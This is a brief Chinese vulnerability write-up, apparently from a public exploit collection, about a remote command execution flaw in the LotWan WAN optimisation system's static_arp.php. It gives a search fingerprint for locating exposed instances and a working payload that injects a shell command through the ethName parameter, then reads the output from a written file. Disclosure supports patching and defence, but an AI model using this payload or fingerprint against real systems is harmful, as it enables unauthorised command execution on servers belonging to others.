


# 华夏创新 LotWan广域网优化系统 static_arp.php 远程命令执行漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统 static_arp.php文件参数 ethName存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## 网络测绘

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面


存在漏洞的文件为

```
/acc/bindipmac/static_arp.php?ethName=||id>cmd.txt||
```



再访问 `/acc/bindipmac/cmd.txt`

